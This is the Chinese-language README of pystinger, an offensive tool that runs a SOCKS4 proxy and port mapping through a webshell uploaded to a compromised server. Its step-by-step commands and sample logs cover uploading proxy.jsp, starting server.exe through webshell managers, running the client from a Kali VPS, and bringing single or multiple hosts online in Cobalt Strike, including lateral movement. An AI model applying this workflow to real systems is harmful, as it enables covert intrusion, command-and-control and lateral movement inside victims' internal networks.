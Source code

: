 # 毒刺(pystinger)

简体中文 | [English](../../readme.md) 

毒刺(pystinger)通过webshell实现**内网SOCK4代理**,**端口映射**.

可直接用于metasploit-framework,viper,cobalt strike上线.

主体使用python开发,当前支持php,jsp(x),aspx三种代理脚本.


# 使用方法

> 假设不出网服务器域名为 [http://example.com:8080](http://192.168.3.11:8080) ,服务器内网IP地址为192.168.3.11

## SOCK4代理


* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 ```UTF-8```
* 将server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/server.exe```启动服务端
> 不要直接运行D:/XXX/server.exe,会导致tcp断连
* vps执行```./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* 此时已经在vps```127.0.0.1:60000```启动了一个```example.com```所在内网的**socks4a**代理
* 此时已经将目标服务器的```127.0.0.1:60020```映射到vps的```127.0.0.1:60020```

## cobalt strike单主机上线

* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 ```UTF-8```
* 将server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/server.exe```启动服务端
> 不要直接运行D:/XXX/server.exe,会导致tcp断连
* client命令行执行```./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择输出信息RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为127.0.0.1
* 生成payload,上传到主机运行后即可上线

## cobalt strike多主机上线

* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 ```UTF-8```
* 将server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/server.exe 192.168.3.11```启动服务端
> 192.168.3.11可以改成0.0.0.0
* client命令行执行```./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为192.168.3.11(example.com的内网IP地址)
* 生成payload,上传到主机运行后即可上线
* 横向移动到其他主机时可以将payload指向192.168.3.11:60020即可实现出网上线

## 定制Header及proxy
* 如果webshell需要配置Cookie或者Authorization,可通过--header参数配置请求头

```--header "Authorization: XXXXXX,Cookie: XXXXX"```

* 如果webshell需要通过代理访问,可通过--proxy设置代理

```--proxy "socks5:127.0.0.1:1081"```


# 相关工具
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)

# 已测试
## server\client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# 更新日志
**2.0**
更新时间: 2019-09-29
* 将socks4代理服务移动到客户端
* 不再支持端口转发功能

**2.1**
更新时间: 2020-01-07
* 支持CS上线功能(即端口映射功能)


The development is supported by the software from jetbrains.</br>
https://www.jetbrains.com/?from=pystinger

<a href="https://www.jetbrains.com/?from=pystinger" target="_blank">
  <img src=".github/images/jetbrains.svg">
</a>
